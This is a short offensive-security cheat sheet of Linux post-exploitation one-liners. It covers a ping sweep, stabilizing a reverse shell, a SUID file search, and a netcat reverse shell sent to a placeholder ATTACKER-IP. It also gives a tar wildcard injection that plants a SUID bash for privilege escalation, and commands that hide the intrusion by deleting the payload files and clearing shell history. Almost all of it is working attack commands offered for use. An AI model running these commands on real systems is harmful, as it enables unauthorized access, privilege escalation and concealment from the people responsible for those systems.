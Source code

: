 ## Ping Sweep One-Liner (esp if nmap doesn't exist)
```
for i in {1..255}; do (ping -c 1 192.168.1.${i} | grep "bytes from" &); done
```

## Reverse Shell Stabilization
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
ctrl + z
stty raw -echo; fg
reset
```
## SUID search
```
find / -type f -perm -u=s 2>/dev/null
```
## Reverse Shell alternative (assuming nc exists)
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER-IP ATTACKER-PORT >/tmp/f
```

## Wildcard Injection - exploitation
```
printf '#/!bin/bash\nchmod +s /bin/bash' > shell.sh    OR
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/shell.sh    

echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```
## Wildcard Injection - erasing tracks
```
rm -- --checkpoint*
rm -- "--checkpoint* "
rm shell.sh

[SESSION ONLY] history -c 
clear ~/.bash_history
```
